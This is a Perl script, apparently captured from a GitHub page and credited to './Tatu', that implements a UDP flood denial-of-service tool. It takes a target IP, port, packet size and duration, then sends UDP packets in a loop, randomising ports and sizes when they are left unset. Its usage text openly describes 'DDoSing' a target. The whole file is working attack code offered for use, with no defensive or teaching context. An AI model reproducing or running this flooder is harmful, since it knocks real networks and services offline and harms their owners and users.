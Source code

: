 #!/usr/bin/perl
 
#Created by ./Tatu
#Port - Use '80' Para Pessoas ou Porta 53 Para DNS Ou 8090 Para Site
#Size - Use '100 - 2000' (Reccomended).
 
use Socket;
use strict;
 
print '
 
 _________     __________    _________    
 |$$$$$$$|      |$$$$$$$$|   |$$$$$$$|   |$       $|
   |$$|         |$      $|     |$$|      |$       $| 
   |$$|         |$      $|     |$$|      |$       $|
   |$$|         |$$$$$$$$|     |$$|      |$       $|
   |$$|         |$      $|     |$$|      |$       $|
   |$$|         |$      $|     |$$|      |$       $|
   |$$|         |$      $|     |$$|      |$$$$$$$$$|
 
';
print "\n";
 
 
if ($#ARGV != 3) {
  print "\n\t\t\t***Error command must recieve four arguements***\n";
  print "-Ex) perl DOS.pl 1.1.1.1 80 1000 300\n";
  print "-Therefore DDoSing the IP '1.1.1.1' for '300' seconds on port '80' using '1000' packets\n\n";
  exit(1);
}
 
my ($ip,$port,$size,$time) = @ARGV;
my ($iaddr,$endtime,$psize,$pport);
$iaddr = inet_aton("$ip") or die "Cannot connect to $ip\n";
$endtime = time() + ($time ? $time : 1000000);
socket(flood, PF_INET, SOCK_DGRAM, 17);
print "~To cancel the attack press \'Ctrl-C\'\n\n";
print "|IP|\t\t |Port|\t\t |Size|\t\t |Time|\n";
print "|$ip|\t |$port|\t\t |$size|\t\t |$time|\n";
print "To cancel the attack press 'Ctrl-C'\n" unless $time;
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1500-64)+64) ;
  $pport = $port ? $port : int(rand(65500))+1;
 
  send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport, $iaddr));}
